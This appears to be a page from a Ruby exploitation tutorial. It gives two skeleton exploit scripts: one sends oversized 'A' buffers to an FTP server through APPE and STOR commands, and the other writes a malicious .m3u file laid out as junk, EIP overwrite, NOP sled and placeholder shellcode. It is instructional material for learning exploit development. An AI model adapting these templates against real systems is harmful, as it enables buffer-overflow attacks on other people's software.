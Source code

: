 # Module 0x5 | Exploitation KungFu

## Skeleton exploit

It's really a good thing to have a skeleton exploit to edit and use quickly during your exploitation process. 

### Network base 

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'

buffer = "A" * 2000

#--> Networking
host = ARGV[0]
port = ARGV[1] || 21

s = TCPSocket.open(host, port)
s.recv(1024)
puts "[+] Sending Username."
s.send("USER ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Password."
s.send("PASS ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Evil buffer..."
s.send("APPE " + buffer + "\r\n", 0)
total = s.send("STOR " + buffer + "\r\n", 0)
#--> Exploit Info
puts "[+] " + "Total exploit size: " + "#{total} bytes."
puts "[+] " + " Buffer length: " + "#{buffer.size} bytes."
puts "[+] Done"

s.close
```
To execute it
```
ruby ftp_exploit.rb [TARGET] [PORT]
```
Notice that some services has to receive from it and some does not.

### File base 

Creating a simple exploit file 

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI

file = ARGV[0] || "exploit.m3u"

junk  = "A" * 2000
eip   = "B" * 4
nops  = "\x90" * 8
shell = "S" * 368
exploit = junk + eip + nops + shell

File.open(file, 'w') {|f| f.write(exploit)}
puts "[*] Exploit size: #{exploit.size}"
```


<br><br><br>
---
